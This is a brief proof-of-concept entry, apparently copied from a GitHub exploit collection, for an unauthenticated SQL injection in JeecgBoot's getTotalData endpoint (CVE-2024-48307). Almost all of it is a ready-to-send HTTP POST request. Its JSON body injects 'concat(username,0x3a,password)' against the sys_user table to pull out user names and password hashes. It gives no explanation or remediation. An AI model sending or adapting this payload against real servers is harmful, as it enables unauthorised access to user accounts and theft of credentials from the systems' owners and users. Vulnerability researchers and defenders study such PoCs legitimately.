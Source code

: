 # jeecgboot_getTotalData_sqli

from: https://github.com/wy876/POC/blob/main/JeecgBoot/JeecgBoot%E6%8E%A5%E5%8F%A3getTotalData%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CVE-2024-48307).md
product: jeecgboot

```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284

{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```
